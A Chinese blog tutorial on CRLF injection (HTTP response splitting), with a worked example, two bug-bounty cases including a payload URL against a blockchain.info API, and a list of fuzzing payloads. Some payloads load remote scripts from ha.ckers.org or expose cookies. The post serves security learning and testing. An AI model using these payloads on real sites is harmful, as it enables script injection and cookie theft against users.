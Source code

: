 ```yaml
---
layout: post
title:  CRLF注入漏洞研究
date: 2018-12-23 20:50:6.000000000 +08:00
---
```


# Original
今天看国外案例的时候看到CRLF的案例，突然也想写一篇文章来记录一下。

# First What Is CRLF
```
CRLF是Carriage-Return Line-Feed的缩写，意思是回车换行，就是回车(CR, ASCII 13, \r) 换行(LF, ASCII 10, \n)，CRLF字符（%0d%0a）CRLF也被称为HTML拆分。
```
我们在渗透测试过程中可以寻找我们可控返回包header的请求
比如下面这个请求
```
GET /test/demo.php?url=https://c1h2e1.github.io
xxxxxxxxxxxxxxxxxxxxx
xxxxxxxxxxxxxxxxx
```
response

```
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: deflate
xxxxxxxx
Locations=https://baidu.com
```
向上述这种返回包里面的header可控的请求我们就可以尝试进行CRLF注入。
```
%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2047%0d%0a%0d%0a<script>alert(1)</script>
```
`Content-Length：0` 代表header 的结尾，返回包会变成这个样子
```
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: deflate
xxxxxxxx
Locations=https://baidu.com
Content-Length: 0

<script>alert(1)</script>

```
这样我们就会触发我们的js并弹窗
这也就是最简单的一次**crlf注入**
# 案例
我在国外的漏洞库`pentester.land`搜集了2个CRLF案例
案例一
http://blog.shashank.co/2017/11/crlf-injection-in-bockchaininfo.html
```
GET /charts/total-bitcoins?cors=true&format=csv&lang=english HTTP/1.1
Host: api.blockchain.info
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
HTTP/2.0 200 OK
date: Tue, 31 Oct 2017 15:47:21 GMT
content-type: text/csv; charset=ascii
content-length: 10953
access-control-allow-origin: *
cache-control: public, max-age=60
content-disposition: attachment; filename="total-bitcoins.csv"
content-language: english


"lang"参数出现在了返回包里
现在为了注入CRLF 我们需要url编码一下\r\n "%0D%0A"
据此发送如下请求
https://api2.blockchain.info/charts/total-bitcoins?cors=true&format=csv&lang=en%0ATEST
新的header出现在了返回包里

这里存在CRLF注入漏洞 ，这样可以进行利用CRLF漏洞去执行JavaScript代码，去盗取cookie

最终的Payload

https://api2.blockchain.info/charts/total-bitcoins?cors=true&format=csv&lang=en%0AX-XSS-Protection:0%0AContent-Type:text/html%0AContent-Length:35%0A%0A%3Csvg%20onload%3Dalert%28document.domain%29%3E&__cf_waf_tk__=012853002E6loVIOSyqHfdxrvHJ87MshEnZI

```

案例二

https://medium.com/bugbountywriteup/bugbounty-exploiting-crlf-injection-can-lands-into-a-nice-bounty-159525a9cb62
```
因为详情写的没有请求包和发现过程
但我可以推算一下
他的请求包出现在了返回包中，比如http://test.com/aaaaaa
我们的aaaa会出现在header中，之后我们就可以测试CRLF的攻击了
利用思路和原来一样就不再写了
```
# KEEP FUZZING
我们在实战中可以选用fuzz 的手段进行挖掘和bypass
so我们再一次分享Payload
```
%0d%0a
%0d%0a%0d%0a
r%0d%0aContentLength:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContentType:%20text/html%0d%0aContentLength:%2019%0d%0a%0d%0a<html>Injected%02Content</html>
%0d%0d%0a%0a
0x0D0x0A
0x0D0x0D0x0A0x0A
\r\n
%5cr%5cn
%0%0d%0ad%0%0d%0aa
%0%0D%0AD%0%0D%0AA
%0d%0aContentType:%20text/html;charset=UTF-7%0d%0aContent-Length:%20129%0d%0a%0d%0a%2BADw-html%2BAD4-%2BADw-body%2BAD4-%2BADw-script%2BAD4-alert%28%27XSS,cookies:%27%2Bdocument.cookie%29%2BADw-/script%2BAD4-%2BADw-/body%2BAD4-%2BADw-/html%2BAD4
%0AContent-Type:html%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E
%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E
%0AContent-Type:html%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3Ehttp://www.test.com
%0d%0a%0d%0a%3Chtml%3E%3Cbody%3E%3C%2Fbody%3E%3Cscript+src%3Dhttp%3A%2F%2Fha.ckers.org%2Fs.js%3E%3C%2Fscript%3E%3Cscript%3Ealert(%22location.host%20is:%20%22%2Blocation.host)%3C%2Fscript%3E%3C%2Fhtml%3E
%0d%0a%0d%0a%3Cscript+src%3Dhttp%3A%2F%2Fha.ckers.org%2Fxss.js%3E%3C%2Fscript%3E
%22%3E%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E%3C%22
%0AContent-type:%20text/html%0A%0Ahttp://www.test.com/%3Cscript%3Ealert(%22XSS%22)%3C/script%3E
%0d%0a%0d%0a%3Cscript%3Ealert(%22XSS%22)%3C%2Fscript%3E
%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E
```

# 总结
临时想到要写的一篇文章，研究新漏洞总结新思路！！
